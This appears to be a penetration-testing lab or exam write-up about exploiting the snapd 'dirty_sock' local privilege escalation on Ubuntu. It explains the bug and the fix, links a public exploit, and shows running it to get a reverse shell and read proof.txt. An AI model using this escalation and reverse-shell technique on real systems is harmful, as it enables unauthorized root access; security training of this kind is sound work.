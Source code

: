 ```yaml
---
vulnx: "snapd &lt; 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation"
---
```


## Vulnerability Explanation:
This exploit bypasses access control checks to use a restricted API function (POST /v2/create-user) of the local snapd service. This queries the Ubuntu SSO for a username and public SSH key of a provided email address, and then creates a local user based on these value.

## Vulnerability Fix:
Install a version greater than 2.37 of snapd.

## Severity: Critical

## Proof of Concept Code:
No modifications made to the proof of concept code.

The exploit can be found here:
https://www.exploit-db.com/exploits/46361

## Further exploitation:
During the exam we ran linuxprivchecker.py to find a vulnerability:

https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py

The output quickly reveals that snapd is vulnerable.

```
<snip>

[+] snapd is vulnerable! 

<snip>
```

## Exploit searching
A quick search finds the following exploit:
https://www.exploit-db.com/exploits/46361

## Exploiting:
We setup a reverse shell and we run the script.
```
dirty_sock.py 10.11.1.1
```

Which results in a reverse shell connecting back to our machine
![](screenshot.png)

## Proof
The reverse shell alows us to retrieve the proof.txt file.
![](screenshot.png)

